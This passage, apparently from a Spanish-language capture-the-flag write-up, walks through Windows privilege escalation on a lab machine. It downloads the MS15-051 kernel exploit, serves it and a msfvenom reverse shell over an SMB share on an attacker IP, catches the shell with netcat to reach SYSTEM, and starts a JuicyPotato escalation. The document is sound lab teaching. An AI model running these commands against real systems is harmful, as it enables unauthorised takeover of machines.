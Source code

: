## ESCALADA POR MS15-051

Vamos a aprovecharnos de la vulnerabilidad `ms15-051`, descargando y descomprimiendo el script de [SecWiki](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip) y copiando la reverse shell generada por `msfvenom` anteriormente.

```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
unzip MS15-051-KB3045171.zip
cd MS15-051-KB3045171/
cp ../rev.exe .
```

Compartimos un servidor `smb`

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

Generamos un listener

```bash
rlwrap nc -lvnp 4564
```

Ejecutamos comandos en la máquina víctima.

```bash
\\10.10.14.13\smbFolder\ms15-051x64.exe "\\10.10.14.13\smbFolder\rev.exe"
```

Obtenemos una sesión con permisos de administrador.

```bash
#OUTPUT
whoami
nt authority\system
```

## ESCALADA JUICYPOTATO

Esta es otra manera de escalar privilegios, en esta ocasión vamos a hacer uso de [JuicyPotato](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe), debido a que tenemos habilitado el permiso `SeImpersonatePrivilege`.

En máquina víctima consultamos permisos y grupos habilitados.

```bash
whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
```

Descargamos `JuicyPotato`

